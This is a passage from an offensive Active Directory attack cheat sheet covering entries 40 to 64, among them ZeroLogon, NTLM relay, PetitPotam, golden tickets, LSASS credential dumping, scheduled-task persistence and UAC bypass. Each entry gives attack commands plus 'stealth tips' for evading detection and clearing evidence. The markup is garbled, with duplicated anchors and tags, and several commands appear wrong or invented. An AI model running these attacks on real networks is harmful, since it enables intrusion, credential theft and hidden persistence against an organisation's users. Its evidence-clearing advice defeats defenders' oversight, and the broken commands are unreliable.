- **Functionality**: Combines RBCD + DCSync to replicate secrets  
- **Why It's Vulnerable**: If RBCD set on DC object, DCSync becomes possible  
- **How to Test**: Create computer, set delegation to DC, and DCSync  
```powershell
# Powermad + Rubeus
New-MachineAccount ...
Set-RBCD on DC → Use Rubeus DCSync
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Use temporary objects; clear evidence  
</details>


<a name="netlogon-zero-logon-cve-2020-1472"></a>
<details>
  <a name="netlogon-zerologon-cve-2020-1472"></a>
<details>
  <summary><strong>41. Netlogon ZeroLogon (CVE-2020-1472)</strong></summary>

- **Purpose**: Gain domain admin access by exploiting Netlogon protocol flaw  
- **Functionality**: Sends crafted Netlogon messages with zeroed fields  
- **Why It's Vulnerable**: Cryptographic flaw allows spoofing DC credentials  
- **How to Test**: Run Python PoC to authenticate as DC  
```bash
python3 zerologon_tester.py dc-name dc-ip
```
- **Tools**: Impacket, ZeroLogon exploit scripts  
- **Stealth Tips**: Exploit causes logs; use once and reset DC account  
</details>

<a name="ntlm-relay"></a>
<details>
  <a name="ntlm-relay"></a>
<details>
  <summary><strong>42. NTLM Relay</strong></summary>

- **Purpose**: Intercept and relay authentication to another service  
- **Functionality**: Man-in-the-middle attack using NTLM challenge-response  
- **Why It's Vulnerable**: Services accepting NTLM without signing  
- **How to Test**: Use responder + ntlmrelayx  
```bash
responder -I eth0
ntlmrelayx.py -t ldap://target --escalate-user vulnerable
```
- **Tools**: Responder, ntlmrelayx  
- **Stealth Tips**: Relay once; avoid repeated noise  
</details>

<a name="printnightmare-cve-2021-34527"></a>
<details>
  <a name="printnightmare-cve-2021-34527"></a>
<details>
  <summary><strong>43. PrintNightmare (CVE-2021-34527)</strong></summary>

- **Purpose**: Remote code execution via Print Spooler service  
- **Functionality**: Uploads DLL to system via printer API  
- **Why It's Vulnerable**: Print Spooler exposed and unpatched  
- **How to Test**: Use exploit to write DLL and trigger  
```bash
Invoke-Nightmare -NewUser "pwned" -AddToAdministrators
```
- **Tools**: PowerShell PoCs, Mimikatz  
- **Stealth Tips**: Remove DLL, cleanup user afterward  
</details>

<a name="samaccountname-spoofing-cve-2021-42278"></a>
<details>
  <a name="samaccountname-spoofing-cve-2021-42278"></a>
<details>
  <summary><strong>44. SAMAccountName Spoofing (CVE-2021-42278)</strong></summary>

- **Purpose**: Rename machine account to impersonate a domain admin  
- **Functionality**: Exploits mismatch in machine account naming checks  
- **Why It's Vulnerable**: No strict validation for account renames  
- **How to Test**: Rename machine account and request TGT  
```powershell
Rename-ADObject -Identity "CN=old" -NewName "DC01"
Rubeus asktgt /user:DC01 /rc4:<hash>
```
- **Tools**: PowerShell, Rubeus  
- **Stealth Tips**: Rename back quickly; keep account disposable  
</details>

<a name="petitpotam-adcs-relay"></a>
<details>
  <a name="petitpotam--adcs-relay"></a>
<details>
  <summary><strong>45. PetitPotam + ADCS Relay</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker and relay to ADCS  
- **Functionality**: EFSRPC coercion to force auth + ADCS relay  
- **Why It's Vulnerable**: Unauthenticated access to EFSRPC + misconfigured templates  
- **How to Test**: Use petitpotam + ntlmrelayx  
```bash
python3 petitpotam.py attacker-ip target-ip
ntlmrelayx.py -t http://CA-server/certsrv/ --adcs
```
- **Tools**: petitpotam, ntlmrelayx  
- **Stealth Tips**: Coerce once; use high-integrity cert template  
</details>

<a name="delegation-abuse-unconstrained"></a>
<details>
  <a name="delegation-abuse---unconstrained"></a>
<details>
  <summary><strong>46. Delegation Abuse - Unconstrained</strong></summary>

- **Purpose**: Abuse unconstrained delegation to impersonate users  
- **Functionality**: Attacker machine gets TGTs when user logs in  
- **Why It's Vulnerable**: Unconstrained delegation set on computer object  
- **How to Test**: Trick user into authenticating to attacker-controlled host  
```powershell
# After victim auths
Rubeus tgtdeleg
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Limit use of captured TGTs; cleanup afterwards  
</details>

<a name="kerberos-rc4-hashing-deprecated-vuln"></a>
<details>
  <a name="kerberos-rc4-hashing-weak-crypto"></a>
<details>
  <summary><strong>47. Kerberos RC4 Hashing (Weak Crypto)</strong></summary>

- **Purpose**: Exploit weak encryption for ticket forging  
- **Functionality**: Use known hash to forge TGT/TGS  
- **Why It's Vulnerable**: Legacy support of RC4 and weak crypto algorithms  
- **How to Test**: Force RC4 with Rubeus and inject forged tickets  
```powershell
Rubeus asktgt /user:target /rc4:<ntlm> /ptt
```
- **Tools**: Rubeus  
- **Stealth Tips**: Avoid triggering Kerberos events  
</details>

<a name="kerberos-golden-ticket"></a>
<details>
  <a name="golden-ticket"></a>
<details>
  <summary><strong>48. Golden Ticket</strong></summary>

- **Purpose**: Forge TGTs as any user including domain admins  
- **Functionality**: Use krbtgt hash to craft TGT  
- **Why It's Vulnerable**: DC trusts TGTs signed by krbtgt  
- **How to Test**: Dump krbtgt hash and create TGT  
```powershell
mimikatz "kerberos::ptt golden.kirbi"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use short lifetime TGTs; avoid excessive privileges  
</details>

<a name="ldap-signing-bypass"></a>
<details>
  <a name="ldap-signing-not-enforced"></a>
<details>
  <summary><strong>49. LDAP Signing Not Enforced</strong></summary>

- **Purpose**: Relay NTLM to LDAP without signing  
- **Functionality**: AD doesn’t require LDAP signing by default  
- **Why It's Vulnerable**: Enables relaying to domain controller  
- **How to Test**: Relay NTLM to LDAP using ntlmrelayx  
```bash
ntlmrelayx.py -t ldap://dc-ip --escalate-user victim
```
- **Tools**: ntlmrelayx, Responder  
- **Stealth Tips**: Limit relays; delete accounts created  
</details>

<a name="overpass-the-hash-pass-the-key"></a>
<details>
  <a name="overpass-the-hash-pass-the-key"></a>
<details>
  <summary><strong>50. OverPass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Authenticate using NTLM hash by forging TGT  
- **Functionality**: Use AES/RC4 hash to generate TGT  
- **Why It's Vulnerable**: Kerberos accepts keys instead of passwords  
- **How to Test**: Use Mimikatz or Rubeus to craft TGT  
```powershell
mimikatz "kerberos::ptt /user:user /domain:lab.local /rc4:<ntlm>"
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Clean up injected tickets  
</details>


<a name="resource-based-constrained-delegation"></a>
<details>
  <a name="resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>51. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Allow impersonation on target by modifying msDS-AllowedToActOnBehalfOfOtherIdentity  
- **Functionality**: Attacker-controlled computer account is delegated on victim  
- **Why It's Vulnerable**: ACL misconfig or writable attributes allow delegation abuse  
- **How to Test**:
```powershell
Add-DComputer -ComputerName 'pwned' -SAMAccountName 'pwned$'
Set-ADComputer 'victim$' -PrincipalsAllowedToDelegateToAccount 'pwned$'
```
- **Tools**: PowerView, Rubeus, Impacket  
- **Stealth Tips**: Use stealthy names; revert delegation post-access  
</details>

<a name="unquoted-service-path"></a>
<details>
  <a name="unquoted-service-path"></a>
<details>
  <summary><strong>52. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit path parsing to run malicious binary with service privileges  
- **Functionality**: Windows may misinterpret unquoted service paths with spaces  
- **Why It's Vulnerable**: Service binary path is not wrapped in quotes  
- **How to Test**:
```powershell
sc qc vulnservice
# Place binary at 'C:\Program Files\Some App\evil.exe'
```
- **Tools**: PowerUp, accesschk.exe  
- **Stealth Tips**: Clean up binary; requires service restart  
</details>

<a name="weak-service-permissions"></a>
<details>
  <a name="weak-service-permissions"></a>
<details>
  <summary><strong>53. Weak Service Permissions</strong></summary>

- **Purpose**: Modify service binary to execute attacker code  
- **Functionality**: Service permissions allow write/replace of executable  
- **Why It's Vulnerable**: Misconfigured DACLs on service or executable  
- **How to Test**:
```powershell
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config vulnservice binpath= "C:\evil.exe"
```
- **Tools**: PowerUp, accesschk, sc.exe  
- **Stealth Tips**: Revert path after execution  
</details>

<a name="mimikatz-sekurlsa-dump"></a>
<details>
  <a name="credential-dumping-with-mimikatz"></a>
<details>
  <summary><strong>54. Credential Dumping with Mimikatz</strong></summary>

- **Purpose**: Extract plaintext passwords, hashes, and tickets from LSASS  
- **Functionality**: LSASS memory stores creds of logged-in users  
- **Why It's Vulnerable**: LSASS is accessible to admin-level users  
- **How to Test**:
```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV/EDR detection; use memory-safe methods  
</details>

<a name="browser-creds-and-lsass"></a>
<details>
  <a name="dumping-browser-creds--lsass-offline"></a>
<details>
  <summary><strong>55. Dumping Browser Creds & LSASS Offline</strong></summary>

- **Purpose**: Steal saved browser passwords or LSASS dump for offline parsing  
- **Functionality**: Use tools to decrypt browser or parse minidumps  
- **Why It's Vulnerable**: Browsers and LSASS often store sensitive data  
- **How to Test**:
```bash
procdump64.exe -ma lsass.exe lsass.dmp
mimikatz "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```
- **Tools**: Mimikatz, procdump, LaZagne  
- **Stealth Tips**: Upload & analyze offline; clean up dumps  
</details>

<a name="wmi-persistence"></a>
<details>
  <a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>56. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain access using permanent WMI events  
- **Functionality**: Register event filters and consumers to execute payload  
- **Why It's Vulnerable**: WMI can persist actions without files  
- **How to Test**:
```powershell
Invoke-WmiEvent -Trigger Win32ProcessStartTrace -Command "calc.exe"
```
- **Tools**: PowerShell, WMIExplorer  
- **Stealth Tips**: Hard to detect; clear subscriptions later  
</details>

<a name="scheduled-task-persistence"></a>
<details>
  <a name="scheduled-task-persistence"></a>
<details>
  <summary><strong>57. Scheduled Task Persistence</strong></summary>

- **Purpose**: Run payload at logon or system boot  
- **Functionality**: Task Scheduler executes attacker-defined task  
- **Why It's Vulnerable**: Misconfigured permissions or admin access  
- **How to Test**:
```powershell
schtasks /create /tn "Updater" /tr "C:\evil.exe" /sc onlogon /ru System
```
- **Tools**: schtasks, PowerSploit  
- **Stealth Tips**: Use legit-looking names and paths  
</details>

<a name="user-account-control-bypass"></a>
<details>
  <a name="uac-bypass"></a>
<details>
  <summary><strong>58. UAC Bypass</strong></summary>

- **Purpose**: Elevate from medium integrity to high integrity without prompt  
- **Functionality**: Abuse auto-elevated binaries  
- **Why It's Vulnerable**: Auto-elevate rules and DLL hijacking  
- **How to Test**:
```powershell
Invoke-BinaryUACBypass -Method fodhelper -Command "C:\evil.exe"
```
- **Tools**: UACME, PowerUp  
- **Stealth Tips**: Use signed binaries if possible  
</details>

<a name="shadow-credentials"></a>
<details>
  <a name="shadow-credentials"></a>
<details>
  <summary><strong>59. Shadow Credentials</strong></summary>

- **Purpose**: Persist access via alternate credentials (KeyCredential)  
- **Functionality**: Add attacker public key to victim user object  
- **Why It's Vulnerable**: Weak ACLs allow key injection  
- **How to Test**:
```bash
certify shadow /user:target /dc:dc-ip /machine:attacker
```
- **Tools**: Certify, Whisker, SharpHound  
- **Stealth Tips**: Silent persistence method  
</details>

<a name="adcs-template-misconfig"></a>
<details>
  <a name="adcs-certificate-template-misconfig"></a>
<details>
  <summary><strong>60. ADCS Certificate Template Misconfig</strong></summary>

- **Purpose**: Abuse vulnerable certificate templates to escalate  
- **Functionality**: Enroll in low-privilege templates with high privilege rights  
- **Why It's Vulnerable**: Wrong security descriptors on templates  
- **How to Test**:
```bash
certify find /vulnerable
certify request /template:User /altname:admin
```
- **Tools**: Certify, ADCSKit  
- **Stealth Tips**: Remove certs after use  
</details>

<a name="printerbug-coercion"></a>
<details>
  <a name="printerbug-coercion"></a>
<details>
  <summary><strong>61. PrinterBug Coercion</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker  
- **Functionality**: Send Print Spooler call that triggers SMB auth  
- **Why It's Vulnerable**: Printer bug causes machine auth leak  
- **How to Test**:
```bash
rpcdump.py @target -U user
printerbug.py attacker@domain target
```
- **Tools**: printerbug.py, Responder  
- **Stealth Tips**: Use once per target; rotate SMB listener  
</details>

<a name="priv-esc-across-trust-key-abuse"></a>
<details>
  <a name="privesc-across-external-trust-trust-key-abuse"></a>
<details>
  <summary><strong>62. PrivEsc across External Trust – Trust Key Abuse</strong></summary>

- **Purpose**: Exploit trust misconfig to access another domain  
- **Functionality**: Abuse shared trust keys to forge cross-domain tickets  
- **Why It's Vulnerable**: Poor trust config allows forging with known keys  
- **How to Test**:
```powershell
Rubeus tgtdeleg /rc4:<trustkey> /domain:child.domain
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Minimal noise across domains; cleanup tickets  
</details>

<a name="kerberos-key-listing-dumping"></a>
<details>
  <a name="kerberos-key-listingdumping"></a>
<details>
  <summary><strong>63. Kerberos Key Listing/Dumping</strong></summary>

- **Purpose**: Extract Kerberos keys from memory or dump  
- **Functionality**: Keys used for ticket encryption are dumped from LSASS  
- **Why It's Vulnerable**: Keys reside in memory  
- **How to Test**:
```powershell
mimikatz "sekurlsa::ekeys"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV detection; use offline analysis  
</details>

<a name="kerberos-renewable-ticket-abuse"></a>
<details>
  <a name="renewable-kerberos-ticket-abuse"></a>
<details>
  <summary><strong>64. Renewable Kerberos Ticket Abuse</strong></summary>

- **Purpose**: Persist access by renewing TGT indefinitely  
- **Functionality**: Create long-lifetime ticket and keep renewing  
- **Why It's Vulnerable**: Policy allows long ticket lifetimes  
- **How to Test**:
```powershell
Rubeus renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Fly under radar with long-term access  
</details>

